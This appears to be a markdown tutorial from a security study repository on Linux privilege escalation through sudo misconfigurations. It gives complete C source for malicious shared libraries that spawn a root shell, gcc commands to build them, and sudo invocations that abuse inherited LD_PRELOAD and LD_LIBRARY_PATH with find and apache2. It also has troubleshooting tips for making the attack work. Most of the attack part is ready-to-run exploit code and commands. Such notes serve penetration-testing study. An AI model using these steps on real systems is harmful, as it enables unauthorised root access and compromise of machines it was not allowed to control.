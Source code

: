 # SUDO
The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges.

Any user can check its current situation related to root privileges using the command:
```
sudo -l
```
Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.
Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

## 📌Environment Variables:
Sudo can be configured to inherit certain environment variables from the user's environment.
Check which environment variables are inherited (look for the env_keep options):
```
sudo -l
```
**LD_PRELOAD** and **LD_LIBRARY_PATH** are both inherited from the user's environment. 
- **LD_PRELOAD:** loads a shared object before any others when a program is run.
- **LD_LIBRARY_PATH:** provides a list of directories where shared libraries are searched for first.

### 🔴Exploiting LD_PRELOAD:
LD_PRELOAD is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.
The steps of this privilege escalation vector can be summarized as follows:
1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
We need to run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
This will result in a shell spawn with root privileges.

### 🔴Exploiting LD_LIBRARY_PATH:
The LD_LIBRARY_PATH variable tells Linux where to look for shared libraries. If sudo allows this variable to be inherited, we can trick a root process into loading a malicious library.

**Step 1: Check Apache2 Dependencies**
```
ldd /usr/sbin/apache2
```
- **ldd** lists all shared libraries used by Apache2.
- Find a commonly used library name (e.g., libcrypt.so.1).

Example output:
```
libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f8a2d0f7000)
```
This means Apache2 loads **libcrypt.so.1** from the system libraries. We will replace it with a malicious version.

**Step 2: Create a Fake Malicious Library**
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /<PATH>/library_path.c
```
- Creates a fake **libcrypt.so.1** in **/tmp**.
- The file contains malicious code that executes a root shell.

Script of library_path.c is:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
**Step 3: Force Apache2 to Load the Fake Library**
```
sudo LD_LIBRARY_PATH=/tmp apache2
```
- Tells Apache2 to search /tmp first for libraries.
- Since we placed a fake libcrypt.so.1 in /tmp, Apache2 loads our malicious code, giving us root access.
✅ Root shell acquired!

# 🔎 Debugging & Improving the Attack
**What if it doesn't work?**

1️⃣ Try renaming the fake library to another dependency from ldd apache2.
```
mv /tmp/libcrypt.so.1 /tmp/libssl.so.1.1
```
2️⃣ Modify /home/user/tools/sudo/library_path.c to match the function signatures of the original library.

3️⃣ Check if LD_LIBRARY_PATH is truly inherited using sudo -l.
